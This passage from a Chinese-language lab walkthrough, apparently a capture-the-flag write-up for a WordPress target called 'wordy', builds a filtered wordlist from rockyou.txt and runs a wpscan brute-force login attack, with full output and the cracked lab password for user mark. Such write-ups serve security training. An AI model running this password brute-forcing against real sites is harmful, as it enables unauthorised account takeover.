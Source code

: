 没有找到密码

使用系统里的 rockyou.txt 字典

![11](https://havocykp.github.io/assets/images/img_blog8/11.png)

根据提示

![12](https://havocykp.github.io/assets/images/img_blog8/12.png)

根据提示将 rockyou.txt 的内容以 k01过滤后，输出到 wordy-pass.dic （作为新的字典）

![13](https://havocykp.github.io/assets/images/img_blog8/13.png)

再利用wpscan暴力破解

```javascript
┌─[root@pendo]─[/home/pendo]
└──╼ #wpscan --url http://wordy/ -U wordyUsers.list -P wordy-pass.dic 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://wordy/ [192.168.2.203]
[+] Started: Fri Sep 10 02:00:23 2021

[!] Valid Combinations Found:
 | Username: mark, Password: helpdesk01

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Sep 10 02:02:39 2021
[+] Requests Done: 12718
[+] Cached Requests: 7
[+] Data Sent: 6.234 MB
[+] Data Received: 7.735 MB
[+] Memory used: 268.121 MB
[+] Elapsed time: 00:02:15

```

爆破出密码：mark/helpdesk01
